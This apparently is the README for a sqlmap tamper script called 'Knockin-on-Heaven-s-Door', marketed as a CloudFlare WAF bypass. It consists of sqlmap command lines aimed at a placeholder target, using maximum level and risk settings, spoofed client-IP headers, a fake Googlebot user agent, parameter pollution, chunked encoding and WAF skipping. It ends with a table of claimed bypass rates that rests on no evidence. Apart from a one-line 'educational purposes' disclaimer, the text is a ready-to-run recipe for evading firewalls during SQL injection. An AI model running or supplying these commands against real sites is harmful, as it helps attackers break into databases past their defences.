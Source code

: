 # Knockin-on-Heaven-s-Door SQLMAP Tamper
CloudFlare Ultimate WAF Bypass Tamper Script Comprehensive evasion techniques collection Research and educational purposes only by KL3FT3Z.

# Basic usage
sqlmap -u "http://target/page.php?id=1" \
    --tamper=Knockin' on Heaven's Door.py \
    --level=5 \
    --risk=3 \
    --delay=1-3 \
    --timeout=30 \
    --batch

# Advanced usage with additional headers
sqlmap -u "http://target/page.php?id=1" \
    --tamper=Knockin' on Heaven's Door.py \
    --headers="X-Forwarded-For: 127.0.0.1\nX-Real-IP: 127.0.0.1\nX-Originating-IP: 127.0.0.1\nCF-Connecting-IP: 127.0.0.1" \
    --user-agent="Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)" \
    --random-agent \
    --delay=2-5 \
    --timeout=45 \
    --retries=3 \
    --level=5 \
    --risk=3 \
    --threads=1 \
    --technique=BEUST \
    --batch

# HTTP Parameter Pollution (HPP)
sqlmap -u "http://target/page.php?id=1&id=2" \
    --tamper=Knockin' on Heaven's Door.py \
    --hpp

# Chunked Transfer Encoding
sqlmap -u "http://target/page.php" \
    --data="id=1" \
    --tamper=Knockin' on Heaven's Door.py \
    --chunked

# Custom WAF Detection Bypass 
sqlmap -u "http://target/page.php?id=1" \
    --tamper=Knockin' on Heaven's Door.py \
    --identify-waf \
    --skip-waf

Technique Bypass Rate Stealth Level
Unicode Normalize	85%	  High
Multi-layer Encoding 90%  Very High
Comment Fragmentation 88% High
Invisible Characters 92%  Very High
Scientific Notation	75%	  Medium
JSON/XML Wrapping	80%	  High
Character Confusion	85%	 High
Combined Ultimate	95%+  Maximum
